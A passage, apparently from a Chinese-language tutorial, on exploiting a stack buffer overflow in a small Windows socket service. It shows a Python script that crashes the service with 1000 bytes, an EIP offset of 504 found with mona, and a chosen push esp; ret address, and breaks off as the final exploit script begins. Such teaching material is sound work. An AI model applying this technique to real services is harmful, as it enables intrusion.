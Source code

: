 	//Pass the data received to the function pr
	pr(Message);
	
	//close client socket
	closesocket(clientSocket);
	//close server socket
	closesocket(serverSocket);
	
	WSACleanup();
	
	return SS_OK;
	}

向该服务程序发送超过500字节的数据时，会造成其崩溃。下面的python脚本会出发崩溃：

	import socket
	
	data = 'A' * 1000
	s= socket.socket()
	s.connect(('localhost',200))
	s.send(data)
	s.close()

![](/assets/img/metasploit/1.png)

使用mona pattern确定其eip偏移在504。

![](/assets/img/metasploit/2.png)


![](/assets/img/metasploit/3.png)

查找一个push esp ;ret 序列，我们找的是71a22b53，用这个值覆盖eip。shellcode我们随便使用一个Messagebox。

得到一个如下的python脚本：

	import socket
	
